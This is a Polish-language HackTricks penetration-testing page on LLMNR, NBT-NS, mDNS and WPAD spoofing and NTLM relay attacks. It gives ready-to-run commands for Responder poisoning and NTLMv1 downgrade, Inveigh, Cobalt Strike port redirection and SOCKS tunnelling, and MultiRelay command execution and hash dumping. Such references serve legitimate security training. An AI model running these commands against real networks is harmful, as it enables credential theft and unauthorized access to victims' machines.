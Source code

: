 # Spoofing LLMNR, NBT-NS, mDNS/DNS i WPAD oraz ataki relayowe

{% hint style="success" %}
Ucz się i ćwicz Hacking AWS:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Ucz się i ćwicz Hacking GCP: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Wsparcie dla HackTricks</summary>

* Sprawdź [**plany subskrypcyjne**](https://github.com/sponsors/carlospolop)!
* **Dołącz do** 💬 [**grupy Discord**](https://discord.gg/hRep4RUj7f) lub [**grupy telegramowej**](https://t.me/peass) lub **śledź** nas na **Twitterze** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Podziel się trikami hackingowymi, przesyłając PR-y do** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repozytoriów github.

</details>
{% endhint %}

## Protokoły sieciowe

### Protokoły lokalnego rozwiązywania hostów
- **LLMNR, NBT-NS i mDNS**:
- Microsoft i inne systemy operacyjne używają LLMNR i NBT-NS do lokalnego rozwiązywania nazw, gdy DNS zawiedzie. Podobnie systemy Apple i Linux używają mDNS.
- Protokoły te są podatne na przechwytywanie i spoofing z powodu ich nieautoryzowanej, rozgłosowej natury w UDP.
- [Responder](https://github.com/lgandx/Responder) może być używany do podszywania się pod usługi, wysyłając sfałszowane odpowiedzi do hostów zapytujących te protokoły.
- Dalsze informacje na temat podszywania się pod usługi za pomocą Respondera można znaleźć [tutaj](spoofing-llmnr-nbt-ns-mdns-dns-and-wpad-and-relay-attacks.md).

### Protokół automatycznego odkrywania proxy w sieci (WPAD)
- WPAD pozwala przeglądarkom na automatyczne odkrywanie ustawień proxy.
- Odkrywanie jest ułatwione przez DHCP, DNS lub przejście do LLMNR i NBT-NS, jeśli DNS zawiedzie.
- Responder może automatyzować ataki WPAD, kierując klientów do złośliwych serwerów WPAD.

### Responder do zatruwania protokołów
- **Responder** to narzędzie używane do zatruwania zapytań LLMNR, NBT-NS i mDNS, selektywnie odpowiadając na podstawie typów zapytań, głównie celując w usługi SMB.
- Jest preinstalowane w Kali Linux, konfigurowalne w `/etc/responder/Responder.conf`.
- Responder wyświetla przechwycone hashe na ekranie i zapisuje je w katalogu `/usr/share/responder/logs`.
- Obsługuje zarówno IPv4, jak i IPv6.
- Wersja Windows Respondera jest dostępna [tutaj](https://github.com/lgandx/Responder-Windows).

#### Uruchamianie Respondera
- Aby uruchomić Respondera z domyślnymi ustawieniami: `responder -I <Interface>`
- Dla bardziej agresywnego skanowania (z potencjalnymi skutkami ubocznymi): `responder -I <Interface> -P -r -v`
- Techniki przechwytywania wyzwań/odpowiedzi NTLMv1 dla łatwiejszego łamania: `responder -I <Interface> --lm --disable-ess`
- Podszywanie się pod WPAD można aktywować za pomocą: `responder -I <Interface> --wpad`
- Żądania NetBIOS mogą być rozwiązywane do IP atakującego, a proxy uwierzytelniające można skonfigurować: `responder.py -I <interface> -Pv`

### Zatruwanie DHCP za pomocą Respondera
- Spoofing odpowiedzi DHCP może na stałe zatruć informacje routingu ofiary, oferując bardziej dyskretną alternatywę dla zatruwania ARP.
- Wymaga precyzyjnej wiedzy o konfiguracji sieci docelowej.
- Uruchamianie ataku: `./Responder.py -I eth0 -Pdv`
- Ta metoda może skutecznie przechwytywać hashe NTLMv1/2, ale wymaga ostrożnego podejścia, aby uniknąć zakłóceń w sieci.

### Przechwytywanie poświadczeń za pomocą Respondera
- Responder będzie podszywał się pod usługi korzystające z wyżej wymienionych protokołów, przechwytując poświadczenia (zwykle NTLMv2 Challenge/Response), gdy użytkownik próbuje uwierzytelnić się w podszywających się usługach.
- Można próbować obniżyć wersję do NetNTLMv1 lub wyłączyć ESS dla łatwiejszego łamania poświadczeń.

Ważne jest, aby zauważyć, że stosowanie tych technik powinno odbywać się legalnie i etycznie, zapewniając odpowiednie upoważnienie i unikając zakłóceń lub nieautoryzowanego dostępu.

## Inveigh

Inveigh to narzędzie dla testerów penetracyjnych i zespołów red, zaprojektowane dla systemów Windows. Oferuje funkcjonalności podobne do Respondera, wykonując ataki spoofingowe i man-in-the-middle. Narzędzie ewoluowało z skryptu PowerShell do binarnego pliku C#, z [**Inveigh**](https://github.com/Kevin-Robertson/Inveigh) i [**InveighZero**](https://github.com/Kevin-Robertson/InveighZero) jako głównymi wersjami. Szczegółowe parametry i instrukcje można znaleźć w [**wiki**](https://github.com/Kevin-Robertson/Inveigh/wiki/Parameters).

Inveigh można obsługiwać za pomocą PowerShell:
```powershell
Invoke-Inveigh -NBNS Y -ConsoleOutput Y -FileOutput Y
```
Lub wykonany jako binarny plik C#:
```bash
Inveigh.exe
```
### NTLM Relay Attack

Atak ten wykorzystuje sesje uwierzytelniania SMB do uzyskania dostępu do docelowej maszyny, przyznając powłokę systemową, jeśli się powiedzie. Kluczowe wymagania wstępne obejmują:
- Użytkownik uwierzytelniający musi mieć dostęp lokalnego administratora na przekazywanym hoście.
- Podpisywanie SMB powinno być wyłączone.

#### Przekierowanie i tunelowanie portu 445

W scenariuszach, w których bezpośrednie wprowadzenie do sieci nie jest możliwe, ruch na porcie 445 musi być przekierowany i tunelowany. Narzędzia takie jak [**PortBender**](https://github.com/praetorian-inc/PortBender) pomagają w przekierowywaniu ruchu portu 445 na inny port, co jest niezbędne, gdy dostęp lokalnego administratora jest dostępny do ładowania sterowników.

Konfiguracja i działanie PortBender w Cobalt Strike:
```bash
Cobalt Strike -> Script Manager -> Load (Select PortBender.cna)

beacon> cd C:\Windows\system32\drivers # Navigate to drivers directory
beacon> upload C:\PortBender\WinDivert64.sys # Upload driver
beacon> PortBender redirect 445 8445 # Redirect traffic from port 445 to 8445
beacon> rportfwd 8445 127.0.0.1 445 # Route traffic from port 8445 to Team Server
beacon> socks 1080 # Establish a SOCKS proxy on port 1080

# Termination commands
beacon> jobs
beacon> jobkill 0
beacon> rportfwd stop 8445
beacon> socks stop
```
### Inne narzędzia do ataku NTLM Relay

- **Metasploit**: Skonfigurowany z proxy, szczegółami lokalnych i zdalnych hostów.
- **smbrelayx**: Skrypt w Pythonie do relaying sesji SMB i wykonywania poleceń lub wdrażania backdoorów.
- **MultiRelay**: Narzędzie z pakietu Responder do relaying konkretnych użytkowników lub wszystkich użytkowników, wykonywania poleceń lub zrzucania hashy.

Każde narzędzie można skonfigurować do działania przez proxy SOCKS, jeśli to konieczne, co umożliwia ataki nawet przy pośrednim dostępie do sieci.

### Działanie MultiRelay

MultiRelay jest uruchamiane z katalogu _**/usr/share/responder/tools**_, celując w konkretne adresy IP lub użytkowników.
```bash
python MultiRelay.py -t <IP target> -u ALL # Relay all users
python MultiRelay.py -t <IP target> -u ALL -c whoami # Execute command
python MultiRelay.py -t <IP target> -u ALL -d # Dump hashes

# Proxychains for routing traffic
```
Te narzędzia i techniki tworzą kompleksowy zestaw do przeprowadzania ataków NTLM Relay w różnych środowiskach sieciowych.

### Wymuszanie logowania NTLM

W systemie Windows **możesz być w stanie wymusić, aby niektóre uprzywilejowane konta uwierzytelniały się na dowolnych maszynach**. Przeczytaj następującą stronę, aby dowiedzieć się jak:

{% content-ref url="../../windows-hardening/active-directory-methodology/printers-spooler-service-abuse.md" %}
[printers-spooler-service-abuse.md](../../windows-hardening/active-directory-methodology/printers-spooler-service-abuse.md)
{% endcontent-ref %}

## Odniesienia
* [https://intrinium.com/smb-relay-attack-tutorial/](https://intrinium.com/smb-relay-attack-tutorial/)
* [https://www.4armed.com/blog/llmnr-nbtns-poisoning-using-responder/](https://www.4armed.com/blog/llmnr-nbtns-poisoning-using-responder/)
* [https://www.notsosecure.com/pwning-with-responder-a-pentesters-guide/](https://www.notsosecure.com/pwning-with-responder-a-pentesters-guide/)
* [https://intrinium.com/smb-relay-attack-tutorial/](https://intrinium.com/smb-relay-attack-tutorial/)
* [https://byt3bl33d3r.github.io/practical-guide-to-ntlm-relaying-in-2017-aka-getting-a-foothold-in-under-5-minutes.html](https://byt3bl33d3r.github.io/practical-guide-to-ntlm-relaying-in-2017-aka-getting-a-foothold-in-under-5-minutes.html)


{% hint style="success" %}
Ucz się i ćwicz Hacking AWS:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Ucz się i ćwicz Hacking GCP: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Wsparcie dla HackTricks</summary>

* Sprawdź [**plany subskrypcyjne**](https://github.com/sponsors/carlospolop)!
* **Dołącz do** 💬 [**grupy Discord**](https://discord.gg/hRep4RUj7f) lub [**grupy telegram**](https://t.me/peass) lub **śledź** nas na **Twitterze** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Podziel się trikami hackingowymi, przesyłając PR-y do** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repozytoriów github.

</details>
{% endhint %}
